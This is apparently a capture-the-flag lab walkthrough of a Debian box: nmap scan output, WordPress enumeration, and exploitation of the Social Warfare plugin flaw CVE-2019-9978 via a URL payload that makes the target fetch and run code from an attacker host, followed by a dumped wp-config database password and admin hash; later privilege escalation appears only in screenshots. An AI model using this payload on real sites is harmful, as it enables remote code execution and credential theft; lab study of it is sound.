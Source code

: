 ![image](https://user-images.githubusercontent.com/68326057/117396228-26808e80-af17-11eb-864e-04f68f046f55.png)

# NMAP

```bash
PORT   STATE SERVICE REASON  VERSION

22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMeW+2AyVvlr6ePuYubrIG/bVmu/K0Ids1BYbag6YJINa5mbbPE2ATbqsOnKaBhyRSDCpRr7vdn+jAUhuLhf2VogMckwyBgd5/RLDaBTLrvQwE5KidaCHrPElMcuidzcBCoAmK41o/H/w1zdBpM5Fh8ySMr7WMNCDMON00sKoPecMVxWIxzXmfZXBvSdsSk2zJAP6ds+JGduvsFFCGuoIY4A3tLGW1ZQlALkZIt143KvkQrg4rXRjgVbSvryh6a5GJskvGA3QNpUiebqMHC1zXMrjfBoi/SX944LQ0hVLfuXTriH5QkzRhLxkN+K+lvkrGN5RzAqF3IhGIfJcEp7f1
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNe7JLcAbKYhJdELk+ajEn9c68tE7GIr28etvuPibQZZIMFLwM/+Zso6zsYbUOptgjA0+y6YP1geoSoy8CQse9U=
|   256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKZdajYQt+tMB0kowHtm64fUkzCdJbSS1dYaS/bWQrWJ

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# WEB

## Wordpress

```bash
Users:-
admin
```

Plugins:-

![image](https://user-images.githubusercontent.com/68326057/117396723-3351b200-af18-11eb-964f-0cb7a563f197.png)


![image](https://user-images.githubusercontent.com/68326057/117396770-4b293600-af18-11eb-9625-e4ee7329ea3b.png)

--> https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

Payload:-

```bash
http://192.168.199.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.199:8000/payload.txt
```

![image](https://user-images.githubusercontent.com/68326057/117397479-e242bd80-af19-11eb-8e0a-5d0fe894707d.png)

![image](https://user-images.githubusercontent.com/68326057/117397520-f8507e00-af19-11eb-8869-f81ca639f7c7.png)


# user -wwwdata

![image](https://user-images.githubusercontent.com/68326057/117397690-54b39d80-af1a-11eb-8833-0bf0a67b2b60.png)


![image](https://user-images.githubusercontent.com/68326057/117397708-5bdaab80-af1a-11eb-862f-34f3c326401b.png)


## WPCONFIG.php

```php
/** MySQL database username */                                                                                                         
define( 'DB_USER', 'wp_user' );                                                                                                        
                                                                                                                                       
/** MySQL database password */                                                                                                         
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );                                                                                           
wp_user:R3&]vzhHmMn9,:-5                                                                                                                                       
```

## USERS

![image](https://user-images.githubusercontent.com/68326057/117397855-b3791700-af1a-11eb-856b-16c9e75e0eaf.png)

![image](https://user-images.githubusercontent.com/68326057/117398171-69446580-af1b-11eb-89a3-def5a6b11907.png)

```bash
ID      user_login      user_pass       user_nicename   user_email      user_url        user_registered user_activation_key     user_status    display_name
1       admin   $P$BoIPbgc5i8WpBP2HzqoeQW3jfRVAyU1      admin   unknown@uknown.1337     http://192.168.199.123/wordpress        2020-08-17 23:26:45            0       admin

```

# user -takis

![image](https://user-images.githubusercontent.com/68326057/117398599-4b2b3500-af1c-11eb-98e3-afe4d3d2034b.png)


![image](https://user-images.githubusercontent.com/68326057/117398626-5b431480-af1c-11eb-83f8-1e8fde49ecef.png)


# root

![image](https://user-images.githubusercontent.com/68326057/117398652-68600380-af1c-11eb-89f3-1e013c1b0289.png)

![image](https://user-images.githubusercontent.com/68326057/117398811-b70d9d80-af1c-11eb-9fe9-8b2519d757cf.png)
